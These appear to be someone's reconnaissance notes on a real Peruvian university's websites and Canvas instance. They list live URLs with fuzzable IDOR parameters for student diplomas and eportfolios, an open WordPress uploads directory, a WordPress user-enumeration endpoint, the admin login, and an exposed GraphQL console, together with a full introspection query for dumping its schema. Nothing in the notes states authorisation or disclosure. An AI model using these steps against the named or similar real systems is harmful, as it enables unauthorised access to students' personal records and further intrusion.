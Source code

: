 
```
domain = infosil.usil.edu.pe

1) Easy to find

after pressing Employees on LINKEDIN (we get an url)

Example: https://portal.usil.edu.pe/alumno/diplomas?ci=2&cp=1&ca=1301426&ga=1

we can fuzz ca=1301426  (IDOR vulnerability found)

2) Medium to find

after pressing Find Wordpress #2 (we get an url)
https://internacional.usil.edu.pe/nacional/wp-content/uploads/2021/06/INTERCAMBIO-VIRTUAL_final.pdf 
we can see uploaded files on

Example : https://internacional.usil.edu.pe/nacional/wp-content/ 
(Directories disclosed vulnerability found)

3) Medium to find

https://internacional.usil.edu.pe/nacional/ (Wordpress found)
so we can press Wordpress users / login and see some dorks, let's test in the above url path 

Example : https://internacional.usil.edu.pe/internacional/wp-json/wp/v2/users/?per_page=100&page=1 (Users Wordpress disclosed vulnerability found)

4) Medium to find

Also we can see Wordpress login going to 

Example : https://internacional.usil.edu.pe/internacional/wp-admin (Login Wordpress vulnerability found)

domain = usil.instructure.com

5) Easy to find

after pressing Search in Web Archive #2 (we get some urls found in the past by Wayback Machine)
so after logging in canvas we can see eportfolios from other users
we can fuzz 1135

Example : https://usil.instructure.com/eportfolios/1135 (IDOR vulnerability found)

6) Hard to find

After testing for some hours I found that after pressing GraphQL we get some dorks
so let's test it with https://usil.instructure.com/graphiql (GraphQL console found)

we can see all schema with this code

fragment FullType on __Type {
  kind
  name
  description
  fields(includeDeprecated: true) {
    name
    description
    args {
      ...InputValue
    }
    type {
      ...TypeRef
    }
    isDeprecated
    deprecationReason
  }
  inputFields {
    ...InputValue
  }
  interfaces {
    ...TypeRef
  }
  enumValues(includeDeprecated: true) {
    name
    description
    isDeprecated
    deprecationReason
  }
  possibleTypes {
    ...TypeRef
  }
}
fragment InputValue on __InputValue {
  name
  description
  type {
    ...TypeRef
  }
  defaultValue
}
fragment TypeRef on __Type {
  kind
  name
  ofType {
    kind
    name
    ofType {
      kind
      name
      ofType {
        kind
        name
        ofType {
          kind
          name
          ofType {
            kind
            name
            ofType {
              kind
              name
              ofType {
                kind
                name
              }
            }
          }
        }
      }
    }
  }
}

query IntrospectionQuery {
  __schema {
    queryType {
      name
    }
    mutationType {
      name
    }
    types {
      ...FullType
    }
    directives {
      name
      description
      locations
      args {
        ...InputValue
      }
    }
  }
}

then we get a response after executing (Ctrl + A to copy all) then paste in 

https://graphql-kit.com/graphql-voyager/ then press CHANGE SCHEMA the paste in INTROSPECTION and finally DISPLAY (GRAPHQL schema vulnerability found)
```

![[Pasted image 20231027213739.png]]

![[Pasted image 20231027213719.png]]

![[Pasted image 20231027214013.png]]

![[Pasted image 20231027214135.png]]
![[Pasted image 20231027215313.png]]

![[Pasted image 20231027214816.png]]
![[Pasted image 20231027215245.png]]
![[Pasted image 20231027215624.png]]
![[Pasted image 20231027215958.png]]![[Pasted image 20231027220155.png]]![[Pasted image 20231027220756.png]]![[Pasted image 20231027220959.png]]
![[Pasted image 20231027221247.png]]
![[Pasted image 20231027221525.png]]
![[Pasted image 20231027221712.png]]

